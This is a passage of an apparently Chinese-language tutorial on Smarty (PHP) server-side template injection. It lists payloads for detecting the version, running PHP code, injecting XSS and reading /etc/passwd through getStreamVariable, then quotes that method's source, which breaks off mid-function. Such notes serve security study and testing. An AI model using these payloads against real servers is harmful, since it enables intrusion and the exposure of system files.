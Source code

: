 根据这两次的回显就可以确定这里的模板是`smarty`



<br>

***

<br>

# Smarty(PHP)

>`Smarty`是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。如果开启了安全模式的话, 这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 `php` 中直接执行命令的函数(相当于存在了一个`disable_function`)
>
>当然还是可以利用`Smarty`内置的变量和方法,例如`smarty`类里的`getStreamVariable`就可以用来读取文件流
>
>

## 一般的利用方式和payload收集

1. 获取`smarty`版本号:

```
{$smarty.version}  
```

2. ` {php}{/php}`执行`php`代码(此标签已在`smarty3`中被废弃):

```
{php}phpinfo();{/php}  
```

3. ` {literal}` 可以让一个模板区域的字符维持原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析, 例如:

```
{literal}alert('xss');{/literal} //XSS
```



4. 通过**`getstreamvariable`**方法来实现文件读取:(3.1.30的Smarty版本中官方已经把该静态方法删除)

```
{self::getStreamVariable("file:///etc/passwd")}
```

这个类的源码位于:**smarty/libs/sysplugins/smarty_internal_data.php** 

```php
/**
     * gets  a stream variable
     *
     * @param string $variable the stream of the variable
     * @return mixed the value of the stream variable
     */
    public function getStreamVariable($variable)
    {
        $_result = '';
        $fp = fopen($variable, 'r+'); //根据传进来的参数读取
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false ) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }

        if ($this->smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
```